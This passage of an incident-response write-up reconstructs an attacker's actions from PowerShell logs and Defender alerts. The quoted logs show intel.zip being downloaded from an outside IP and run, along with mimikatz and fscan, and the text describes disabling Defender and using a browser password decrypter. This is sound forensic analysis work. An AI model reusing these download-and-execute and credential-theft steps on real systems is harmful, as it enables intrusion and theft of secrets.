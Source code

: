 ![](timeline.png)

The attacker changed to the documents folder and went on to download a zip file from `http://13.53.200.146/`, unpack it and start to use some of the tools. Interestingly `Windows Defender` recognized the tools as threat.

```bash
ScriptBlock: Invoke-WebRequest -URI "http://13.53.200.146/intel.zip" -OutFile "./intel.zip"
ScriptBlock: Invoke-WebRequest -URI "http://13.53.200.146/intel.zip" -OutFile "./intel.zip"
ScriptBlock: &"C:\Program Files\7-Zip\7z.exe" x -p hoilamgi intel.zip
ScriptBlock: &"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
ScriptBlock: ./mimikatz.exe
Threat: HackTool:Win32/Mimikatz!pz ¦ Severity: High ¦ Type: Tool ¦ User: ¦ Path: file:_C:\Users\tommyxiaomi\Documents\mimikatz.exe ¦ Proc: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ScriptBlock: ./fscan64.exe
Threat: Trojan:Win32/CryptInject ¦ Severity: Severe ¦ Type: Trojan ¦ User: ¦ Path: file:_C:\Users\tommyxiaomi\Documents\fscan64.exe ¦ Proc: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Then the attacker continues with `intel.exe` which also is quarantined. 

```bash
ScriptBlock: & "./intel.exe"
Threat: Trojan:Win32/Wacatac.B!ml ¦ Severity: Severe ¦ Type: Trojan ¦ User: DESKTOP-A1L0P1U\tommyxiaomi ¦ Path: file:_C:\Users\tommyxiaomi\Documents\intel.exe ¦ Proc: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

After a while the attacker disables realtime monitoring of `Windows Defender` and unzips the package again. Calls `browser-pw-decrypt.exe` and `intel.exe` (this time without being quarantined). Checks the `report directory` (probably to see if things where encrypted successfully) and then removes the binaries and the zip file.
